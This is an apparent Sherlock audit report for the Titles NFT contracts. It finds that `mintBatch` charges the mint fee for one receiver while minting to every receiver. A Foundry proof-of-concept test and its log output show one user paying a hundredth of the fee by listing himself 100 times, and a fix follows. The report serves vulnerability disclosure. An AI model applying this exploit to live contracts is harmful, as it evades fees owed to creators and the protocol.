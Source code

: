Sleepy Cider Cormorant

high

# The user can avoid paying fees for minting tokens

## Summary

The user can avoid paying the fee in the `mintBatch` function, because it does not take into account the number of `receivers_`.

## Vulnerability Detail

The function `mintBatch` calculates fee based on the provided `amount_` (which is the number of tokens to be minted per each reciever). 

https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/editions/Edition.sol#L311-L313

This is wrong, because later we can observe that the same `amount_` is issued for each receiver

https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/editions/Edition.sol#L315-L317

Therefore, fee is collected from `amount_` and `amount * receivers_.length` tokens are minted. An attacker can effectively decide the fees paid by adding themself as a receiver multiple times. The POC file shows how to pay a 100x lower fee as example.

## POC results

```bash
[PASS] test_POC_mintBatch_X3() (gas: 1014417)
Logs:
  
  requiredFee 1060000000000000000
  
  BEFORE THE MINT
  Alice balance:  100000000000000000000
  Bob balance:    100000000000000000000
  FeeManager balance:  0
  Edition balance:  0
 
  
  AFTER ALICE MINT
  Alice balance:  98940000000000000000
  Bob balance:   100000000000000000000
  FeeManager balance:  0
  Edition balance:  0
  
  
  AFTER BOB MINT
  Alice balance:  98940000000000000000
  Bob balance:    99989400000000000000
  FeeManager balance:  0
  Edition balance:  0
```

## POC file

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";

import {Edition} from "src/editions/Edition.sol";
import {FeeManager} from "src/fees/FeeManager.sol";
import {TitlesGraph} from "src/graph/TitlesGraph.sol";
import {
    Comment,
    Node,
    NodeType,
    NotOpen,
    Metadata,
    Strategy,
    Target,
    Unauthorized
} from "src/shared/Common.sol";

contract MockSplitFactory {
    struct Split {
        address[] recipients;
        uint256[] allocations;
        uint256 totalAllocation;
        uint16 distributionIncentive;
    }

    function createSplit(Split memory, address, address) external view returns (address) {
        return address(this);
    }

    receive() external payable {}
}

contract MockGraph {
    function createEdge(Node memory, Node memory, bytes memory) external {}
}

contract EditionTest is Test {
    Edition public edition;
    FeeManager public feeManager;
    TitlesGraph public graph;

    function setUp() public {
        edition = new Edition();
        feeManager = new FeeManager(address(0xdeadbeef), address(0xc0ffee), address(new MockSplitFactory()));
        graph = new TitlesGraph(address(this), address(this));

        edition.initialize(
            feeManager,
            graph,
            address(this),
            address(this),
            Metadata({label: "Test Edition", uri: "ipfs.io/test-edition", data: new bytes(0)})
        );

        edition.publish(
            address(1), // creator
            1000, // maxSupply
            0, // opensAt
            0, // closesAt
            new Node[](0), // attributions
            Strategy({
                asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
                mintFee: 0.01 ether,
                revshareBps: 2500, // 25%
                royaltyBps: 250 // 2.5%
            }),
            Metadata({label: "Best Work Ever", uri: "ipfs.io/best-work-ever", data: new bytes(0)})
        );

        // Normally done by the TitlesCore, but we're testing in isolation
        feeManager.createRoute(edition, 1, new Target[](0), address(0));
    }

    function test_POC_mintBatch_X3() public {
    // Scenario setup
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    vm.deal(alice, 100 ether);
    vm.deal(bob, 100 ether);
    uint256 tokenId = 1;
    uint256 amountSingle = 100;
    uint256 amountBatch = 1;
    uint256 totalBatchMints = 100;
    address[] memory receivers = new address[](totalBatchMints);
    
    for (uint256 i = 0; i < totalBatchMints; i++) {
        receivers[i] = bob;
    }

    //Calculate the fee required for 100 tokens?
    uint256 requiredFee = edition.mintFee(1,100);

    console.log("");
    console.log("requiredFee",requiredFee);
    console.log("");
    console.log("BEFORE THE MINT");
    console.log("Alice balance: ", alice.balance);
    console.log("Bob balance: ", bob.balance);
    console.log("FeeManager balance: ", address(feeManager).balance);
    console.log("Edition balance: ", address(edition).balance);
    console.log("");

    vm.startPrank(alice);
    edition.mint{value: requiredFee}(alice, tokenId, amountSingle, address(0), new bytes(0));
    vm.stopPrank();

    console.log("");
    console.log("AFTER ALICE MINT");
    console.log("Alice balance: ", alice.balance);
    console.log("Bob balance: ", bob.balance);
    console.log("FeeManager balance: ", address(feeManager).balance);
    console.log("Edition balance: ", address(edition).balance);
    console.log("");

    vm.startPrank(bob);
    edition.mintBatch{value: requiredFee/100}(receivers, tokenId, amountBatch, new bytes(0));
    vm.stopPrank();

    console.log("");
    console.log("AFTER BOB MINT");
    console.log("Alice balance: ", alice.balance);
    console.log("Bob balance: ", bob.balance);
    console.log("FeeManager balance: ", address(feeManager).balance);
    console.log("Edition balance: ", address(edition).balance);
    console.log("");


    // Assertions to verify state changes
    assertEq(edition.balanceOf(alice, tokenId), amountSingle, "User1 token balance incorrect");
    assertEq(edition.balanceOf(bob, tokenId), amountBatch * totalBatchMints, "User2 token balance incorrect");
}

}
```

## Impact

Any user can avoid paying fees.

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/editions/Edition.sol#L304-L320

## Tool used

Manual Review

## Recommendation

Calculate fee for all the receivers in `mintBatch`. Since in the current implementation the amount per receiver must be the same, it can be done following way:

```solidity
amount_ * receivers.length
```

Consider the possibility of editing the amount per receiver for batch transactions.
